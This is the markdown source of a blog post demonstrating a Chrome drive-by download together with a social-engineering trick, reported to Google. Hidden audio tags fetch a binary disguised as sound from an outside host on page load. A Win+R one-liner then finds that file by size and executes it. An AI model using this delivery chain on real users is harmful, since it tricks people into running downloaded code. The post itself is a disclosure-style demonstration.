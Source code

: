 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, but without the automatic execution part), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<div style= "padding: 2px 4px;  background-color: #de9393; padding-top: 9px ; border: 1px solid #ccc; display:table">
<div style= "padding: 2px 4px;  background-color: #de9393;  width:720px ; display:inline-block;">

<B>Keep safe!</B> To avoid unnecessary risk, only try this in a temporary VM.
</div>
</div>

**Just run this and be surprised:**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium

